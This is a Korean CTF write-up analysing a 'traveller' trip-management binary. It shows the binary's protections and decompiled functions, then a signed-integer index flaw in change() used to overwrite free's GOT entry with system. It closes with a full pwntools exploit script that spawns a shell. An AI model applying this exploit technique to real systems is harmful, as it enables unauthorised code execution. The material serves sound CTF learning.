


# 취약점 분석

## 바이너리 개요

```cpp
./traveller: ELF 64-bit LSB executable
x86-64
version 1 (SYSV)
dynamically linked
interpreter /lib64/ld-linux-x86-64.so.2
for GNU/Linux 2.6.32
BuildID[sha1]=b551cbb805a21e18393c3816ffd28dfb11b1ff1e
with debug_info
not stripped

linux-vdso.so.1 (0x00007ffe8fb89000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f7aeab6c000)
/lib64/ld-linux-x86-64.so.2 (0x00007f7aeaf5d000)
```

## 보호기법

```cpp
gdb-peda$ checksec 
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

```cpp
trip 구조체
=>char* destination
=>ssize_t distance

-- global variables --
TRIPS_NUM = 7
TOTAL_RUN = 14
trip* trips[7]
tIndex = 0
```

## main 함수 분석

```cpp
int main(int argc)
{
	printf("\nHello! Welcome to trip management system. \n");
	printf("%p \n", &argc);
	char choice[4];
	unsigned int choice_num;
	printf("\nChoose an option: \n");
	while (1)
	{
		printf("\n1. Add a trip \n");
		printf("2. Change a trip \n");
		printf("3. Delete a trip \n");
		printf("4. Check a trip \n");
		printf("> ");
		fflush(stdout);
		fgets(choice, 4, stdin);
		choice_num = atoi(choice);
		switch (choice_num)
		{
		case 1:
			add();
			break;
		case 2:
			change();
			break;
		case 3:
			delet();
			break;
		case 4:
			getTrip();
			break;
		}
	}
}
```

- argc 스택 주소가 노출되는 것을 확인할 수 있으며, 총 4개의 메뉴를 선택할 수 있다.
- Add 메뉴는 동적 할당을 진행한다.
- Change는 해당 할당되어진 값을 변경한다.
- Delete는 해제
- Check는 할당된 값을 확인할 수 있다.

## add 함수

```cpp
void add()
{
	char choice[4];
	int choice_num;
	if (tIndex == TRIPS_NUM)
	{
		printf("Cannot add more trips.\n");
		exit(0);
	}
	printf("Adding new trips...\n");
	trip *newTrip = malloc(sizeof(trip));
	printf("Choose a Distance: \n");
	printf("1. 0x80 \n");
	printf("2. 0x110 \n");
	printf("3. 0x128 \n");
	printf("4. 0x150 \n");
	printf("5. 0x200 \n");
	printf("> ");
	fgets(choice, 4, stdin);
	choice_num = atoi(choice);
	switch (choice_num)
	{
	case 1:
		newTrip->distance = strtoul("0x80", NULL, 0);
		newTrip->destination = malloc(newTrip->distance);
		printf("Destination: ");
		fgets(newTrip->destination, newTrip->distance, stdin);
		break;
	case 2:
		newTrip->distance = strtoul("0x110", NULL, 0);
		newTrip->destination = malloc(newTrip->distance);
		printf("Destination: ");
		fgets(newTrip->destination, newTrip->distance, stdin);
		break;
	case 3:
		newTrip->distance = strtoul("0x128", NULL, 0);
		newTrip->destination = malloc(newTrip->distance);
		printf("Destination: ");
		fgets(newTrip->destination, newTrip->distance, stdin);
		break;
	case 4:
		newTrip->distance = strtoul("0x150", NULL, 0);
		newTrip->destination = malloc(newTrip->distance);
		printf("Destination: ");
		fgets(newTrip->destination, newTrip->distance, stdin);
		break;
	case 5:
		newTrip->distance = strtoul("0x200", NULL, 0);
		newTrip->destination = malloc(newTrip->distance);
		printf("Destination: ");
		fgets(newTrip->destination, newTrip->distance, stdin);
		break;
	default:
		printf("Can't you count?\n");
		return;
	}
	printf("Trip %lu added.\n", tIndex);
	trips[tIndex++] = newTrip;
}
```

- add func <1:0x80, 2:0x110, 3:0x128, 4:0x150, 5:0x200>

```cpp
-> choice[4]
-> tIndex == 7 -> exit() / tcache...
-> trip *newTrip = malloc(sizeof(trip))
```

- size를 선택해서 그 사이즈를 통해 동적 할당

```cpp
case 1~5
newTrip->distance = <1~5>
newTrip->destination = malloc(newTrip->distance)
newTrip->destination <- size-1 만큼 데이터 입력 (stdin)
```

- add func 마지막 tIndex 증가 배열 설정한 구조체 대입 `[tIndex++] = newTrip`

## change 함수

```cpp
void change()
{
	printf("Update trip: ");
	char buf[20];
	fgets(buf, 20, stdin);

	ssize_t choice = strtoul(buf, NULL, 0);

	if (choice >= tIndex)
	{
		printf("No upcoming trip to update.\n");
		return;
	}
	trip *oldTrip = trips[choice];

	ssize_t bytes_read = read(0, oldTrip->destination, oldTrip->distance);

	oldTrip->destination[bytes_read] = 0;
}
```

- 할당되어진 구조체의 destination 부분을 변경할 수 있으며 tIndex 부분을 사용자가 직접 입력하여 trips 구조체의 주소 부분에 접근이 가능하다.
- choice 가 tIndex보다 클경우 함수를 종료하는 제어 문이 존재 하지만 해당 함수에서는 취약한 점이 존재한다.
- `ssize_t` 데이터 타입은 signed 이기 때문에 음수를 처리할 수 있다 그렇다면 해당 조건 문에서 음수를 입력 하게 된다면 우회가 가능하고 `trips` 구조체 주소 번지를 계산 할 때 음수 값으로 인해 다른 메모리로 접근이 가능하다.
- 그렇다면 이러한 interger issue 로 인하여 특정 메모리 밖의 주소에 접근하여 원하는 값으로 변경이 가능하다.

## delete 함수

```cpp
void delet()
{
	printf("Which trip you want to delete: ");
	char buf[20];
	fgets(buf, 20, stdin);
	ssize_t i = strtoul(buf, NULL, 0);

	if (i >= tIndex)
	{
		printf("That trip is not there already.\n");
		return;
	}
	trip *tp = trips[i];
	if (tIndex > 0)
	{
		trips[i] = trips[tIndex - 1];
		tIndex = tIndex - 1;
	}

	free(tp->destination);
	free(tp);
}
```

- 해제시 사용하던 값을 복사한 후 tIndex를 감소하여 삭제하려는 인덱스 범웨에 대입 즉, 마지막 주소 범웨에 있던 값을 해제시 해당 영역에 대입 후 Tindex 감소

## getTrip 함수

```cpp
void getTrip()
{
	printf("Which trip you want to view? \n");
	printf(">");
	char choice[4];
	fgets(choice, 4, stdin);
	ssize_t i = strtoul(choice, NULL, 0);
	if (i >= tIndex)
	{
		printf("No trip in here. \n");
		return;
	}
	trip *aTrip = trips[i];
	printf("%s \n", aTrip->destination);
}
```

- trips 구조체의 destination 멤버 를 출력하는 형식이다.

# 해결 방안 

## Exploit Idea

- change 함수에서 Integer issue를 바탕으로 어떤 메모리를 덮을 수 있을까? 동적 메모리를 할당하고 해제하는 해당 바이너리에서 free의 got 부분을 조작하여 system@got로 변경할 수있다면 delete 함수를 호출하여 내부적으로 동작하면서 system 함수가 호출되어 쉴을 획득할 수 있을 것이다.

## free@plt+6



```cpp
0x400c59 <change+99>     mov    rax, qword ptr [rbp - 8]
0x400c5d <change+103>    mov    rax, qword ptr [rax*8 + 0x6020c0]
 ► 0x400c65 <change+111>    mov    qword ptr [rbp - 0x10], rax

gdb-peda$ p/d (0x401f30-0x6020c0)/8
$5 = -262194
gdb-peda$
```

- trips 구조체의 크기만큼 증가하여 주소 번지를 이동하기 때문에 우리는 해당 `(0x40df30-0x6020c0)/8` , -262194 를 choice 변수의 값으로 사용하여 `0x401f30` 주소 로 점프한다.
- 그후에 `free@plt+6` 주소에 참조가 가능하여 해당 영역에 우리는 system@plt+6 주소를 덮어써 free@got가 호출될 때 해당 system@plt+6부분이 실행된다.


## exploit code

```python
from pwn import *

if __name__ == '__main__':        
    # context.log_level = 'debug'
    # context.arch = 'amd64'

    LOCAL = 0
    DEBUG = 0

    s       = lambda data               :p.send(str(data))       
    sa      = lambda delim,data         :p.sendafter(str(delim), str(data)) 
    sl      = lambda data               :p.sendline(str(data)) 
    sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data)) 
    r       = lambda num=4096           :p.recv(num)
    rn      = lambda                    :p.recvline()
    ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
    irt     = lambda                    :p.interactive()

    uu32    = lambda data   :u32(data.ljust(4, '\0'))
    uu64    = lambda data   :u64(data.ljust(8, '\0'))
    leak    = lambda name, addr :log.success('{} : {:#x}'.format(name, addr))

    if LOCAL:
        #p = process('./pwn',env={'LD_PRELOAD':'./libc-2.23.so'})
        p = process('./traveller')
        l = ELF('./libc-2.23.so')
        # libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    else:
        p = remote('_._._._', 8000)
        # e = ELF('____')
        # libc = ELF('./libc-2.27.so')
        #libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

    def Add(num, des):
        print r()
        sl(str(1))
        print ru('\n')
        print ru('\n')
        sl(num)
        print r()
        sl(des)

    def Change(num, des):
        print r()
        sl(str(2))
        print r()
        sl(num)
        pause()
        sl(des)

    def Delete(num):
        print r()
        sl(str(3))
        sl(num)

    def Check(num):
        print r()
        sl(str(4))
        print r()
        sl(num)
            
    ru("Hello! Welcome to trip management system. \n")
    argc_stack = int(r(15), 16)
    leak("argc@stack : ", argc_stack)
    Add(3, "/bin/sh\x00")
    Change(-262194, p64(0x400716))
    Delete(0)      
    irt()
```

## get flag



``` toc
```